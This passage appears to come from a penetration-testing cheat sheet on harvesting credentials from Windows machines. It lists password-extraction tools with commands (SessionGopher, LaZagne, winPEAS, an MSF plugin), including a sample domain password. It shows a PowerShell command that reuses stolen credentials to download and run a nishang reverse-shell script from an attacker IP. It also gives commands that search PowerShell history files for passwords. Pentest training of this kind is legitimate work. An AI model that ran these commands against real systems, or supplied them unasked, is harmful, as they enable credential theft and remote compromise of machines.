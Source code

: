 ### Tools that search for passwords

[**MSF-Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials) **is a msf** plugin I have created this plugin to **automatically execute every metasploit POST module that searches for credentials** inside the victim.\
[**Winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) automatically search for all the files containing passwords mentioned in this page.\
[**Lazagne**](https://github.com/AlessandroZ/LaZagne) is another great tool to extract password from a system.

The tool [**SessionGopher**](https://github.com/Arvanaghi/SessionGopher) search for **sessions**, **usernames** and **passwords** of several tools that save this data in clear text (PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP)

```bash
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -Thorough
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

### Have a password for potential cred re-use?

Using powershell, the command&#x20;

```
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

Will store the credentials in `$creds` for the session. A reverse shell can now be opened with the supplied credentials using the command:

```
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http:///10.10.14.20/nishang.ps1')" -Credential $creds
```

### LaZagne

When all else fails, we can run the [LaZagne](https://github.com/AlessandroZ/LaZagne) tool in an attempt to retrieve credentials from a wide variety of software. Such software includes web browsers, chat clients, databases, email, memory dumps, various sysadmin tools, and internal password storage mechanisms (i.e., Autologon, Credman, DPAPI, LSA secrets, etc.). The tool can be used to run all modules, specific modules (such as databases), or against a particular piece of software (i.e., OpenVPN). The output can be saved to a standard text file or in JSON format. Let's take it for a spin.

## Powershell History

### PowerShell History

{% code title="in cmd.exe" %}
```bash
ConsoleHost_history #Find the PATH where is saved

type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```
{% endcode %}
